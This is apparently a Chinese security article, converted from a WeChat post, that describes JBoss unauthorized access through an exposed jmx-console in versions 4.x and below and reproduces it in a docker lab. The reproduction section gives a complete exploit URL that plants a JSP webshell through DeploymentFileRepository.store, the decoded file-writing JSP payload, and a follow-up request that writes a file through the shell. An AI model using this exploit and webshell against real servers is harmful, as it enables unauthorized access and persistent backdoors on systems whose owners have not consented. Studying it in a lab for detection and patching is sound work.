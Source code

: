 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sscxzbICd7Coha2DLFkZMQ)

漏洞汇总

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaPNrb3f20j38XsR35c0ZGrhUEb59oJETJ9etQtvUWmAOsnPpka3njcQ/640?wx_fmt=png)

**jboss 未授权访问漏洞**

**漏洞描述**

    此漏洞主要是由于 JBoss 中 / jmx-console/HtmlAdaptor 路径对外开放，并且没有任何身份验证机制，导致攻击者可以进⼊到 jmx 控制台，并在其中执⾏任何功能  
    未授权访问管理控制台, 通过该漏洞, 可以后台管理服务, 可以通过脚本命令执行系统命令, 如反弹 shell,wget 写 webshell 文件

**影响版本**

    jboss 4.x 以下

**环境搭建**

    使用 docker 搭建的靶场，访问页面 your-ip:8080

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaJybgXfbXN0tkQBr3FYg6icLSoUuvbAbLXwK99VSOORCDVibaQAHiclJ8Q/640?wx_fmt=png)

**漏洞检测**

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUavPCTGCkfIUibNiawbPz7vPOH3lJ9hdeErRq96icvnpU8aRzjrtSCNdq6Q/640?wx_fmt=png)

**漏洞复现**  

**1. 写入一句话木马**

```
http://ip/jmx-console//HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=August.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```

    url 中的参数: arg0 代表 war 包的名称，arg1 = 文件名称，arg2 = 文件后缀名，arg3 = 文件内容

将 arg3 的中值取出来并进行 url 解码后为

```
<% if(request.getParameter(“f”)!=null)(new java.io.FileOutputStream(application.getRealPath(“/”)+request.getParameter(“f”))).write(request.getParameter(“t”).getBytes()); %>
```

    这个语句的功能是写入文件，f = 文件名，t = 文件内容，执行后回显

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaicErWnu7QSMozHKcdREMleZCrY8FvicfIygtoPg6mwD4sHhaxrtulFbg/640?wx_fmt=png)

    写入 1.txt 文件  

```
http://ip:8080/August/shell.jsp?f=1.txt&t=hello%20world!
```
